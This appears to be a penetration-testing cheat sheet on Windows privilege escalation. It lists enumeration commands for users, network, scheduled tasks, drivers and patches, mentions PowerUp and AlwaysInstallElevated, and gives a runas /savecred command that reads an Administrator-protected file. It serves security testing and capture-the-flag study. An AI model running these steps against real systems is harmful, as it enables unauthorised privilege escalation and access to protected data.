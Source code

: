 # Windows Privilege Escalation 
This cheat sheet contains the flow chart methodology that can be used to test Windows privilege escalation.
## System Information Gathering
Use the following steps to gather basic system information once we get a low privilege shell on a Micorsoft Windows system.
### All System Info
To get system information, try the following DOS command,
```
C:> systeminfo
```
### User Info
We can get a list of users with the following command,
```
C:> net user
C:> net user (USERNAME)
```
### Network Information
We can use DOS to gather network information from the comrpomised taregt Microsoft Windows machine with the following DOS commands,
```
C:> ipconfig /all
C:> route print
C:> arp -A
C:> netstat -ano
C:> netsh firewall show state
C:> netsh firewall show config
```
### Scheduled Tasks
Micorosft Windows might have scheduled tasks which we can leverge depending on the task, permissions, the files it accesses and their permissions, and how oftne the task runs. Use the followinf DOS command to gather scheduled task information from Microsoft Windows,
```
C:> schtasks /query /fo LIST /v
C:> tasklist /SVC
C:> net start
```
### Drivers
Some drivers might have vulnerabilities. We can list the drivers used on a Microsoft Windows system with the following DOS command,
```
C:> DRIVERQUERY
```
## Missing Patches
To get the patch information for Microsoft Windows systems, we can us `wmic` as shown below.
```
c:> wmic.exe qfe get Caption, Description, HotFixID, InstalledOn
```
Then do a search in Exploit-DB with `searchsploit` in Kali Linux.
## Browser Credentials
Browser credentials could lead to escalation if the credentials are reused on other systems and services. 

## PowerUp
The [PowerUp Power Shell script](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) PowerSploit module can be used to search for injectable DLLs, service permissions, autologin credentials, web configuration credentials and many other areas of the OS and FS that can be used specifically for privilege escalation.

## AlwaysInstallElevated
This option in the Windows registry will aloow us to execute a binary that does `execv()` and adds an admin user no matter what privilege we current are.

## RunAs
You can try the `runas` command with the `/savecred` in hopes that an admin credential has been saved for scripting purposes. For instance, spawn a new shell and write the contents of a protected file to one that you can read, like so,
```
C:\> runas /savecred /user:Administrator "cmd.exe /c type C:\Users\Administrator\Desktop\flag.txt > C:\Users\PwnedUser\Desktop\flag.txt"
```
If the credentials are in fact stored, you will get a new file in the pwned user's desktop called "flag.txt"
